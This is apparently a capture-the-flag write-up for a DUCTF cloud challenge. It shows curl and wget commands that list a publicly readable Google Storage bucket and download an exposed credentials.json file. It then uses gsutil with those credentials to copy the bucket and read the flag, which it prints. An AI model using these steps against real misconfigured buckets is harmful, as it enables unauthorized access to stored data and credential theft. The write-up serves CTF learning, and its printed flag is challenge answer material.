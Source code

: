 #### Challenge:

I found this really cheap hosting provider to share my first game with everyone. Check it out!

https://jimmys-big-adventure.storage.googleapis.com/index.html

---

#### Solution:

- inspecting the page revels that it's hosted from google storage, thus some kind of `ACL` mishap happened there

```bash
curl https://storage.googleapis.com/jimmys-big-adventure
wget https://jimmys-big-adventure.storage.googleapis.com/credentials.json

# configure with credentials.json
gsutil config -e
gsutil cp -r  gs://jimmys-big-adventure .
cat ./jimmys-big-adventure/flag.txt 
```

---

<details><summary>FLAG:</summary>

```
DUCTF{Th0se_cr3ds_w3r3nt_m34nt_2_b33_th3r3}
```

</details>
<br/>
